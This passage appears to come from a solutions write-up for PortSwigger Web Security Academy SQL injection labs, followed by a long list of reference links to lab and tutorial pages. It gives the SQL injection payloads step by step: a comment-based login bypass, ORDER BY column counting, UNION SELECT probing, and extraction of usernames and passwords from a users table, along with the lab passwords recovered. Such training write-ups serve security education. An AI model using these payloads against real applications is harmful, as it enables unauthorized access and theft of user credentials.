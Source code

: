     ```sql
    administrator'--+
    letmein
    ```

### [SQL injection UNION attacks][sqli_union_attacks]

3. #### **SQL injection UNION attack, determining the number of columns returned by the query**

    ```sql
    Lifestyle
    Lifestyle'
    Lifestyle'+ORDER+BY+10--+
    Lifestyle'+ORDER+BY+5--+
    Lifestyle'+ORDER+BY+3--+
    Lifestyle'+UNION+SELECT+null,null,null--+
    ```

4. #### **SQL injection UNION attack, finding a column containing text**

    ```sql
    Tech+gifts
    Tech+gifts'
    Tech+gifts'+ORDER+BY+10--+
    ...
    Tech+gifts'+ORDER+BY+3--+
    Tech+gifts'+UNION+SELECT+null,null,null--+
    Tech+gifts'+UNION+SELECT+'a',null,null--+
    Tech+gifts'+UNION+SELECT+null,'a',null--+
    Tech+gifts'+UNION+SELECT+null,null,'a'--+
    Tech+gifts'+UNION+SELECT+null,'<payload>',null--+
    ```

5. #### **SQL injection UNION attack, retrieving data from other tables**

    ```sql
    Food+&+Drink
    Food+%26+Drink'
    Food+%26+Drink'+ORDER+BY+10--+
    ...
    Food+%26+Drink'+ORDER+BY+2--+
    Food+%26+Drink'+UNION+SELECT+null,null--+
    Food+%26+Drink'+UNION+SELECT+'a',null--+
    Food+%26+Drink'+UNION+SELECT+null,'a'--+

    v1: Food+%26+Drink'+UNION+SELECT+username,password+FROM+users--+
    v2: '+UNION+SELECT+username,password+FROM+users--+

    administrator
    juzh2wn9ora63r6pxl8b
    carlos
    sedhheoi7cbd4320g53h
    wiener
    b8tr0redpjyjhk2usqte
    ```


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind